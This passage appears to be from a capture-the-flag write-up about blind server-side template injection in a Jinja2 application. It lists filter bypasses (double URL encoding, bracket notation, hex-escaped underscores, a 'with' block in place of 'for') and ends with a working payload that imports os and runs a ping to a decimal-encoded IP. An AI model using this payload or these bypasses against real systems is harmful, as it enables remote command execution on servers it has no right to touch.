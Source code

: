 ![](screenshots/fourm-error2.png)

Using some bypass techinques and replacing blocked characters

"`{{ }}`" replaced with `%257B%257B %257D%257D` Double url encoded.

"`.`" replaced with `[' ']`

"`_`" replaced with `\x5f`

"`'`" replaced with `"`

Because this is a blind SSTI we can not manually found the offset of required class, to solve this i use `for` loop and `if` statement to find that but `for if` are also blocked.

![](screenshots/fourm-error3.png)

"`for`" replaced with `with`

`with` allows common `try…except…finally` usage patterns to be encapsulated for convenient reuse. [EXAMPLE](https://www.geeksforgeeks.org/with-statement-in-python/)

* Using **`with`** statement because it is smiller to `try` but in clean manner and also `try` is not supported in the template language. 
* Get the syntex for `with` statement from jinja2 [docs](https://jinja.palletsprojects.com/en/3.0.x/templates/#with-statement)

      {% with %}
          {% set foo = 42 %}
          {{ foo }}
      {% endwith %}


and final crafted payload, i use [decimal formated](https://www.ipaddressguide.com/ip) ip address because `.` is blocked.
```py
{% with ssti = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("ping -c 2 168431431")["read"]() %} %257B%257Bssti%257D%257D {% endwith %}
```
